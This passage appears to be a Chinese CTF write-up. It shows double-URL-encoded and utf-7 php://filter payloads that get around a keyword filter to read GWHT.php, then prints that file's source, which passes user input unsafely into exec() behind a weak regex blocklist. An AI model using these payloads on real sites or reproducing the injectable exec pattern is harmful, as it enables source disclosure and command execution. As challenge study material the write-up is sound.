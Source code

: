 过滤了 base64 rot13 等关键词, 两次 urlencode 绕过

```
/?file=php://filter/convert.%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35/resource=GWHT.php
```

或者转成 utf-7

```
/?file=php://filter/convert.iconv.utf8.utf7/resource=GWHT.php
```

GWHT.php

```php
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>count is here</title>

    <style>

        html,
        body {
            overflow: none;
            max-height: 100vh;
        }

    </style>
</head>

<body style="height: 100vh; text-align: center; background-color: green; color: blue; display: flex; flex-direction: column; justify-content: center;">

<center><img src="question.jpg" height="200" width="200" /> </center>

    <?php
    ini_set('max_execution_time', 5);

    if ($_COOKIE['pass'] !== getenv('PASS')) {
        setcookie('pass', 'PASS');
        die('<h2>'.'<hacker>'.'<h2>'.'<br>'.'<h1>'.'404'.'<h1>'.'<br>'.'Sorry, only people from GWHT are allowed to access this website.'.'23333');
    }
    ?>

    <h1>A Counter is here, but it has someting wrong</h1>

    <form>
        <input type="hidden" value="GWHT.php" name="file">
        <textarea style="border-radius: 1rem;" type="text" name="count" rows=10 cols=50></textarea><br />
        <input type="submit">
    </form>

    <?php
    if (isset($_GET["count"])) {
        $count = $_GET["count"];
        if(preg_match('/;|base64|rot13|base32|base16|<\?php|#/i', $count)){
        	die('hacker!');
        }
        echo "<h2>The Count is: " . exec('printf \'' . $count . '\' | wc -c') . "</h2>";
```